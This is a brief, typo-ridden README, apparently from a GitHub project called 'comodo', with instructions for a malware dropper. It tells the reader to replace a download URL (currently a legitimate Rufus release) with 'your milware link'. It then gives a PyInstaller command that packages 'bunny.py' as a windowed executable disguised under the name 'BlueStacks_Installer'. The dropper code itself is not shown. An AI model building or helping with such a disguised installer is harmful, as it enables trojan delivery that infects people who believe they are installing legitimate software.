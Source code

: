 # comodo
ssadsdsd
chnge this to your milware link to download 

```
    url = "https://github.com/pbatard/rufus/releases/download/v4.11/rufus-4.11.exe"
```

commnd 

pyinstaller --onefile --windowed --icon=technology.ico --name="BlueStacks_Installer" bunny.py
